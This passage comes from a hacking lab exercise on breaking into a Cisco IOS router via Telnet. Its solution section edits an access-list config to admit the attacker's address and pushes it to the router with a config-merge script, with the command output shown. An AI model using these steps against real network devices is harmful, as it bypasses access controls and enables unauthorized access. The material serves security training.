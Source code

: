 </pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

## Exercise 2 : Break into the IOS router at the center of the network using TELNET and the administrator username and password.

### Task 1

The administrator is only allowed to log in
from **metasploitable.pod.becomingahacker.com**. Without logging into this machine,
figure out how to bypass this. See the **Bonus** section below.

{% capture text %}
<pre>
Edit /srv/tftp/to-apply.cfg

    root@kali:~/becoming-a-hacker/labs/networking# nano /srv/tftp/to-apply.cfg

    root@kali:~/becoming-a-hacker/labs/networking# cat /srv/tftp/to-apply.cfg
    !
    no access-list 2
    access-list 2 permit 10.1.1.4
    access-list 2 permit 10.1.4.1
    access-list 2 permit 10.1.2.2
    !
    ! Don't forget end! :-)
    end
    .

------------------------------------------------------------------------

Merge configuration

    root@kali:~/becoming-a-hacker/labs/networking# sudo ./merge-cisco-cfg.py -i eth1 -s 10.1.1.4 -d 10.1.1.1 -t 10.1.2.2 -f to-apply.cfg -c <removed>
    WARNING: No route found for IPv6 destination :: (no default route?)
    Attempting to upload IOS config to 10.1.1.1
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
